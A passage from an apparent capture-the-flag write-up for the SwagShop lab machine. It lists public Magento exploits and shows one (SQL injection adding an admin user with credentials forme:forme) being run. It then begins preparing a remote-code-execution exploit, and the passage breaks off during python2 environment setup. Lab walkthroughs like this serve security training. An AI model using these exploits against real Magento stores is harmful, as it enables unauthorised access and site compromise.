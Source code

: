 	| Exploit Title                                                  | Path                  |
	| -------------------------------------------------------------- | --------------------- |
	| Magento < 2.0.6 - Arbitrary Unserialize / Arbitrary Write File | php/webapps/39838.php |
	| Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution   | php/webapps/37811.py  |
	| Magento eCommerce - Local File Disclosure                      | php/webapps/19793.txt |
	| Magento eCommerce - Remote Code Execution                      | xml/webapps/37977.py  |
2. Try `xml/webapps/37977.py`
	- How does it work?
		- This exploit is leveraging SQL Injection (SQLi) and inserting a new **admin_user** to the database.

	1. Change some variables in the code
		```
		# Before
		target = "http://target.com/"
	
		# After
		target = "http://swagshop.htb/index.php"
		```
	2. Execute it
		```
		┌──(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# python 37977.py 
		WORKED
		Check http://swagshop.htb/index.php/admin with creds forme:forme
		```
3. Successfully login w/ `forme:forme`
4. Now we have to do RCE to obtain a shell

## TCP/80 (HTTP) - Magento RCE
1. Try `php/webapps/37811.py`
	- How does it work?
		- This exploit takes advantage of the same vulnerability as earlier, to do remote code execution.
		- It is supposed to be carried out after obtaining valid credential from the exploit we did earlier.
		- This exploit requires some debugging and does not work out of the box.

	1. [Fix](https://yufongg.github.io/posts/SwagShop/#tcp80-http---magento-rce-creating-python2-environment) `python2` compatibility w/ `virtualenv`
	2. [Fix/Debug](https://yufongg.github.io/posts/SwagShop/#tcp80-http---magento-rce-debuggingfixing-the-exploit) the exploit so that it works

## TCP/80 (HTTP) - Magento RCE, creating python2 environment
1. The first issue is `python2` compatibility, we have to create a `python2` environment
	```
	┌──(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
	└─# python 37811.py 
	Traceback (most recent call last):
	  File "37811.py", line 16, in <module>
		import mechanize
	ImportError: No module named mechanize
	```
3. Create our `python2` environment
	1. Create `virtualenv`
		```
		┌──(root💀kali)-[~/htb/swagshop/10.10.10.140/exploit]
		└─# virtualenv magento-exploit -p $(which python2)